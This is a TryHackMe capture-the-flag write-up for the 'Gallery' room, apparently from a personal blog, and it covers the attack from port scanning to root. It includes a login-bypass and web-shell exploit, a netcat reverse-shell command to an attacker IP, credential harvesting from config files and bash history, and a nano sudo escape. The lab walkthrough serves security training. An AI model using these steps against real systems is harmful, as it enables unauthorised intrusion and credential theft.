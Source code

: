 ```yaml
---
title: "Gallery"
date: 2025-01-30
image: /assets/img/tryhackme/Gallery/Gallery_image.jpg
description: Writeup of the TryHackMe-CTF Gallery
categories: [Tryhackme, Easy]
tags: [linux, privesc, web, enumeration]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Plattform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Gallery</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Try to exploit our image gallery system</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/r/room/gallery666">https://tryhackme.com/r/room/gallery666</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Gallery.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.180.20                                
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-30 06:17 EST
  Nmap scan report for 10.10.180.20
  Host is up (0.039s latency).
  Not shown: 65533 closed tcp ports (conn-refused)
  PORT     STATE SERVICE
  80/tcp   open  http
  8080/tcp open  http-proxy

  Nmap done: 1 IP address (1 host up) scanned in 19.85 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 80,8080 10.10.180.20
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-30 06:18 EST
  Nmap scan report for 10.10.180.20
  Host is up (0.045s latency).
  
  PORT     STATE SERVICE VERSION
  80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
  |_http-server-header: Apache/2.4.29 (Ubuntu)
  |_http-title: Apache2 Ubuntu Default Page: It works
  8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
  | http-open-proxy: Potentially OPEN proxy.
  |_Methods supported:CONNECTION
  | http-cookie-flags: 
  |   /: 
  |     PHPSESSID: 
  |_      httponly flag not set
  |_http-title: Simple Image Gallery System
  |_http-server-header: Apache/2.4.29 (Ubuntu)
  
  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 8.35 seconds
```
From here I proceeded the analysis port by port.

## Port 80 Analysis
I found an Apache default page, but found nothing in the source code, so I continued with the directory enumeration:
```bash
$ gobuster dir --url http://10.10.180.20/ --wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt 
  ===============================================================
  Gobuster v3.6
  by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
  ===============================================================
  [+] Url:                     http://10.10.180.20/
  [+] Method:                  GET
  [+] Threads:                 10
  [+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
  [+] Negative Status codes:   404
  [+] User Agent:              gobuster/3.6
  [+] Timeout:                 10s
  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /gallery              (Status: 301) [Size: 314] [--> http://10.10.180.20/gallery/]

```

The directory `/gallery` showed a Login screen. With the name of the CMS I found an <a href="https://www.exploit-db.com/exploits/50214">exploit-db</a> entry which can get me remote code execution. The exploit code shows how to bypass the login, but after logging in this didn't reveal anything.

screen 1

```bash
$ python3 exploit.py
TARGET = http://10.10.180.20/gallery              
Login Bypass
shell name TagoenmcpbdzviklgpmLetta

protecting user

User ID : 1
Firstname : Adminstrator
Lastname : Admin
Username : admin

shell uploading
- OK -
Shell URL : http://10.10.180.20/gallery/uploads/1738236540_TagoenmcpbdzviklgpmLetta.php?cmd=whoami

```
screen 2

I was able to get a reverse shell shell:
```html
...?cmd=busybox nc [atacker ip] 9001 -e sh
```
After performing some shell stabilization I started searching for database credentials and found a file called `initialize.php`:
```php
<?php
  $dev_data = array('id'=>'-1','firstname'=>'Developer','lastname'=>'','username'=>'dev_oretnom','password'=>'[removed]','last_login'=>'','date_updated'=>'','date_added'=>'');

  if(!defined('base_url')) define('base_url',"http://" . $_SERVER['SERVER_ADDR'] . "/gallery/");
  if(!defined('base_app')) define('base_app', str_replace('\\','/',__DIR__).'/' );
  if(!defined('dev_data')) define('dev_data',$dev_data);
  if(!defined('DB_SERVER')) define('DB_SERVER',"localhost");
  if(!defined('DB_USERNAME')) define('DB_USERNAME',"gallery_user");
  if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"[removed]");
  if(!defined('DB_NAME')) define('DB_NAME',"gallery_db");
?>
```

With the credentials I was able to access the MySql database:
```bash
www-data@gallery:/var/www/html/gallery$ mysql -u gallery_user -p

MariaDB [(none)]> show databases;
  +--------------------+
  | Database           |
  +--------------------+
  | gallery_db         |
  | information_schema |
  +--------------------+
  2 rows in set (0.00 sec)

MariaDB [(none)]> use gallery_db;
	Database changed

MariaDB [gallery_db]> show tables;
  +----------------------+
  | Tables_in_gallery_db |
  +----------------------+
  | album_list           |
  | images               |
  | system_info          |
  | users                |
  +----------------------+
  4 rows in set (0.00 sec)

MariaDB [gallery_db]> select * from users; 
  +----+--------------+----------+----------+----------------------------------+-------------------------------------------------+------------+------+---------------------+---------------------+
  | id | firstname    | lastname | username | password                         | avatar                                          | last_login | type | date_added          | date_updated        |
  +----+--------------+----------+----------+----------------------------------+-------------------------------------------------+------------+------+---------------------+---------------------+
  |  1 | Adminstrator | Admin    | admin    | [removed]                        | uploads/1738236540_TagoenmcpbdzviklgpmLetta.php | NULL       |    1 | 2021-01-20 14:02:37 | 2025-01-30 11:29:27 |
  +----+--------------+----------+----------+----------------------------------+-------------------------------------------------+------------+------+---------------------+---------------------+
1 row in set (0.00 sec)
```

## Privilege Escalation mike

After searching around a bit I found a backup of the bash history at this path `/var/backups/mike_home_backup/.bash_history`. In the file I found the following:
```bash
$ cat .bash_history
  cat .bash_history
  cd ~
  ls
  ping 1.1.1.1
  cat /home/mike/user.txt
  cd /var/www/
  ls
  cd html
  ls -al
  cat index.html
  sudo -l[removed]
  clear
  sudo -l
  exit
```

This looks like mike's credentials, so I changed the user:
```bash
mike@gallery:~$ su mike
  su mike
  Password: [removed]

mike@gallery:~$ cat user.txt
	[*** removed ***]
```

## Privilege Escalation root
I started with `sudo -l` and got the following output:
```bash
mike@gallery:~$ sudo -l
  Matching Defaults entries for mike on gallery:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

  User mike may run the following commands on gallery:
      (root) NOPASSWD: /bin/bash /opt/rootkit.sh
```
We can execute the `bash` script as root. Let's analyse the bash script:
```bash
  #!/bin/bash

  read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

  # Execute your choice
  case $ans in
      versioncheck)
          /usr/bin/rkhunter --versioncheck ;;
      update)
          /usr/bin/rkhunter --update;;
      list)
          /usr/bin/rkhunter --list;;
      read)
          /bin/nano /root/report.txt;;
      *)
          exit;;
  esac
```
A quick search in <a href="https://gtfobins.github.io/gtfobins/nano/">gftobins</a> gave me all I needed. We can insert `read` to get inside the nano command. From there we can get a shell.
```bash
mike@gallery:~$ sudo /bin/bash /opt/rootkit.sh
  Would you like to versioncheck, update, list or read the report ? read
```
In `nano` press CTRL + R then CTRL + X and insert the command:

screen 3

```bash
# whoami
  root
# cat /root/root.txt
  [*** removed ***]
```

solved! :)

